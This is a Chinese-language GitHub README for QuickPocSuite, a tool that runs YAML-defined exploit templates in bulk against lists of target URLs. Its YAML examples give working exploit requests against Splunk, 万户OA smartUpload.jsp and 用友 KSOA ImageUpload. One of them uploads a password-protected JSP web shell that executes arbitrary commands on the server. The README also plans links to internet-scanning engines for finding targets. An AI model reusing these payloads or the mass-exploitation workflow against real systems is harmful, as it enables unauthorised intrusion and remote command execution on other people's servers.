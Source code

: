 # QuickPocSuite
![QuickPocSuite](https://socialify.git.ci/W01fh4cker/QuickPocSuite/image?description=1&descriptionEditable=%E4%B8%80%E6%AC%BE%E5%9F%BA%E4%BA%8Eyaml%E7%9A%84%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E5%B7%A5%E5%85%B7%EF%BC%8C%E9%80%82%E7%94%A8%E4%BA%8E%E5%88%A9%E7%94%A8%E5%A4%8D%E6%9D%82%E7%A8%8B%E5%BA%A6%E8%BE%83%E4%BD%8E%E7%9A%84%E6%BC%8F%E6%B4%9E&forks=1&issues=1&language=1&name=1&owner=1&pattern=Brick%20Wall&stargazers=1&theme=Light)

# 使用方法

## 快速上手

```shell
# 测试环境：
git clone https://github.com/W01fh4cker/QuickPocSuite.git
cd QuickPocSuite
pip install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple
python QuickPocSuite.py -y <yaml文件地址> -l <需要批量利用的url文件>
# 例如：python QuickPocSuite.py -y splunk-info-disclosure.yaml -l urls.txt 
```
![image](https://github.com/W01fh4cker/QuickPocSuite/assets/101872898/223e0220-24c6-42de-9540-971c75a9e61d)

## 详细参数

```shell
  ___        _      _      ____            ____        _ _       
 / _ \ _   _(_) ___| | __ |  _ \ ___   ___/ ___| _   _(_) |_ ___ 
| | | | | | | |/ __| |/ / | |_) / _ \ / __\___ \| | | | | __/ _ \
| |_| | |_| | | (__|   <  |  __/ (_) | (__ ___) | |_| | | ||  __/
 \__\_\\__,_|_|\___|_|\_\ |_|   \___/ \___|____/ \__,_|_|\__\___|
                                                    @Version: 0.0.2
                                                    @Author: W01fh4cker
                                                    @UpdateTime: 2023-5-12
    
usage: QuickPocSuite.py [-h] [-y YAML] [-l LIST] [-t THREAD] [-o OUTPUT]

QuickPocSuite v0.0.2 By:W01fh4cker

optional arguments:
  -h, --help            show this help message and exit
  -y YAML, --yaml YAML  the YAML file containing the PoC
  -l LIST, --list LIST  the file containing target URLs
  -t THREAD, --thread THREAD
                        the maximum time in seconds for each request,default: 20
  -o OUTPUT, --output OUTPUT
                        the file to output the results, default: output.txt
```



# yaml编写方法

适用版本：`0.0.2`

编写教程：

```yaml
# 单次GET
author: W01fh4cker
request:
  - 
    method: GET
    payload: /en-US/splunkd/__raw/services/server/info/server-info?output_mode=json
    # 自定义请求头，如果不填，则默认设置请求头只包含ua
    headers:
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
    keyword: licenseKeys
    status: 200

# 单次post，以<万户OA smartUpload.jsp 任意文件上传漏洞>为例
author: W01fh4cker
request:
  -
    method: POST
    payload: /defaultroot/extension/smartUpload.jsp?path=information&mode=add&fileName=infoPicName&saveName=infoPicSaveName&tableName=infoPicTable&fileMaxSize=0&fileMaxNum=0&fileType=gif,jpg,bmp,jsp,png&fileMinWidth=0&fileMinHeight=0&fileMaxWidth=0&fileMaxHeight=0
    headers:
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynNQ8hoU56tfSwBVU
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
        Cookie: JSESSIONID=PjXnh6bLTzy0ygQf41vWctGPLGkSvkJ6J1yS3ppzJmCvVFQZgm1r!1156443419
        Connection: close
        data: "\
            ------WebKitFormBoundary{{rboundary}}\r\n\
            Content-Disposition: form-data; name=\"photo\"; filename=\"shell.jsp\"\r\n\
            Content-Type: application/octet-stream\r\n\
            \r\n\
            <% if(\"023\".equals(request.getParameter(\"pwd\"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter(\"i\")).getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print(\"<pre>\"); while((a=in.read(b))!=-1){ out.println(new String(b)); } out.print(\"</pre>\"); } %>\r\n\
            ------WebKitFormBoundary{{rboundary}}\r\n\
            Content-Disposition: form-data; name=\"continueUpload\"\r\n\
            \r\n\
            1\r\n\
            ------WebKitFormBoundary{{rboundary}}\r\n\
            Content-Disposition: form-data; name=\"submit\"\r\n\
            \r\n\
            上传继续\r\n\
            ------WebKitFormBoundary{{rboundary}}--\r\n\
          "
        status: 200

# 单次post+单次get，以<用友-时空KSOA ImageUpload 任意文件上传漏洞>为例
author: W01fh4cker
request:
  -
    method: POST
    payload: /servlet/com.sksoft.bill.ImageUpload?filename=188888.txt&filepath=/
    headers:
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
        Accept: "*/*"
        Accept-Encoding: gzip, deflate
        Connection: close
    data: 123456789
    status: 200
  -
    method: GET
    payload: /pictures/188888.txt
    headers:
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
    keyword: 123456789
    status: 200
```

`payload`为需要在`url`后面拼接的内容；`keyword`为存在漏洞的`url`的界面中出现的关键字。例如：

![image](https://github.com/W01fh4cker/QuickPocSuite/assets/101872898/a336eb2b-03f2-40e7-9f51-f50c1660cbcc)

# Todo-list

- 和`fofa`/`hunter`/`shodan`/`zoomeye`/`quake`等网络测绘引擎的联动；
- 自动对完成扫描的`IP`进行分析，例如反查域名/`ASN`/`org`等；
- 开发`poc`仓库，添加更多的`poc`；
- ……（你们定，直接提`issues`，合理的都会满足）

# 联系方式

紧急的话直接联系Wechat：`W01fh4cker`；非紧急的话直接提`issues`。

提问的时候请贴出报错截图、`Python`版本、电脑系统版本等，方便快速定位问题，简单的能百度或`google`到的问题尽量自己查询。
